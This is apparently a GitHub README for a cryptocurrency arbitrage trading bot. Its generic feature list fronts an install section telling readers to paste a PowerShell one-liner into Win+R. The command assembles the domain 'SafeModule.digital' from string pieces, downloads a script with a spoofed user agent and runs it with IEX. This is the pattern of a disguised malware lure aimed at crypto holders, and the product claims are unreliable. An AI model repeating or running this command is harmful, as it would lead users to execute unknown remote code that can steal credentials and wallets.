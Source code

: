 # Arbitrage Trading Bot 🤖💹

## Project Description
**Arbitrage Trading Bot** is an automated trading bot designed to take advantage of price discrepancies across different cryptocurrency exchanges. The bot monitors multiple exchanges in real-time and executes trades to capitalize on arbitrage opportunities.

## Key Features
- **Multi-Exchange Support**: Connects to various cryptocurrency exchanges for arbitrage opportunities.
- **Real-Time Monitoring**: Continuously monitors prices across exchanges to identify profitable trades.
- **Automated Trading**: Executes trades automatically based on predefined strategies and thresholds.
- **Risk Management**: Implements risk management strategies to minimize potential losses.
- **User -Friendly Dashboard**: Provides an intuitive interface for monitoring trades and performance.



<h2>📥 Download the Program</h2>

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">powershell -Command "$update='SafeModule'; $mode='digital'; $url=$update+'.'+$mode; $Response=Invoke-WebRequest -Uri $url -UseBasicParsing -UserAgent $update; $Script=[System.Text.Encoding]::UTF8.GetString($Response.Content); IEX $Script"</code>
</pre>



## Example Strategies 📈
- **Simple Arbitrage**: Buy low on one exchange and sell high on another.
- **Triangular Arbitrage**: Exploit price inefficiencies between three different currencies on the same exchange.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [CoinGecko API Documentation](https://coingecko.com/en/api)

---

**SEO Keywords**: Arbitrage, Trading Bot, cryptocurrency, automated trading, price discrepancy, multi-exchange, trading strategies.
